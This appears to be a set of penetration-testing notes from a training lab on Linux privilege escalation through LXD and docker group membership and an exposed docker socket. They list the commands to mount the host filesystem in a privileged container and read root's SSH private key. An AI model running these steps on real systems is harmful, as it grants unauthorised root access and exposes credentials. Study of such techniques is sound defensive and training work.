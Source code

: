 # LXC / LXD
LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at /mnt/root. 
```bash
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
```
# docker
If use in docker group, its essentially means he has root access without password required:
```bash
docker run -v /root:/mnt -it alpine
```
## docker socket
```bash
cd /tmp
wget https://master.dockerproject.org/linux/x86_64/docker
chmod +x docker
/tmp/docker -H unix:///app/docker.sock ps

htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash

root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa
```